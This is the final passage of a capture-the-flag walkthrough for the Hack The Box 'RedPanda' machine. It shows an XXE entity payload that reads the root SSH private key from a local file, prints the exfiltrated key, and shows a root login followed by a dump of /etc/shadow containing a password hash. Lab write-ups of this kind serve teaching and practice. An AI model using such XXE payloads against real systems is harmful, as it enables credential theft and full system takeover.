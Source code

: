 We see the pencer variable has been replaced with the contents of the root flag.

If we wanted to get SSH access we could use the same XXE method but get the root private SSH key instead by changing our line to this:

```xml
<!DOCTYPE replace [<!ENTITY pencer SYSTEM "file:///root/.ssh/id_rsa"> ]><credits>
```

Now after the exploit our file contains the key:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/smooch.jpg</uri>
    <hello>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</hello>
    <views>4</views>
  </image>
  <totalviews>4</totalviews>
</credits>
```

Copy that to a file on Kali, chmod 600 it and log in as root:

```sh
┌──(root㉿kali)-[~/htb/redpanda]
└─# ssh -i id_rsa 10.10.11.170
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)
Last login: Sun Jul 17 14:39:54 2022 from 10.10.16.23
root@redpanda:~# id
uid=0(root) gid=0(root) groups=0(root)

root@redpanda:~# cat /etc/shadow
root:$6$HYdGmG45Ye119KMJ$XKsSsbWxGmfYk38VaKlJkaLomoPUzkL/l4XNJN3PuXYAYebnSz628ii4VLWfEuPShcAEpQRjhl.vi0MrJAC8x0:19157:0:99999:7:::
```

All done. Hopefully you learnt something on this fairly simple box.
